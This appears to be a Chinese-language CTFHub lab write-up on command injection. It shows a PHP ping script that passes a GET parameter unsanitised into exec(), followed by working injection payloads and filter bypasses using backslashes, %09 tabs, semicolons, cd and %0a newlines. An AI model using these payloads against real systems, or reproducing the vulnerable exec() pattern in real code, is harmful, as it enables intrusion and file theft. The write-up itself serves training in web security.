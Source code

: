 #### 命令注入

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $cmd = "ping -c 4 {$_GET['ip']}";
    exec($cmd, $res);
}

?>
```

代码将ip参数拼接在ping的后面

`/?ip=192.168.1.1 && cat 282252414312970.php`

#### 过滤cat

反斜杠绕过

`/?ip=192.168.1.1| c\a\t flag_1676654259916.php`

#### 过滤空格

%09绕过，即tab建

`/?ip=192.168.1.1|cat%09flag_14854200238316.php`

#### 过滤目录分隔符

先将工作目录切换到flag_is_here

`/?ip=192.18.1.1;cd flag_is_here;cat flag_2926378924974.php`

#### 过滤运算符

`/?ip=192.168.1.1;cat flag_300338163956.php`

#### CTFHub 命令注入-综合练习

```php
if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
```

因为过滤了 `& ； |`所以使用 `%0a`（回车）
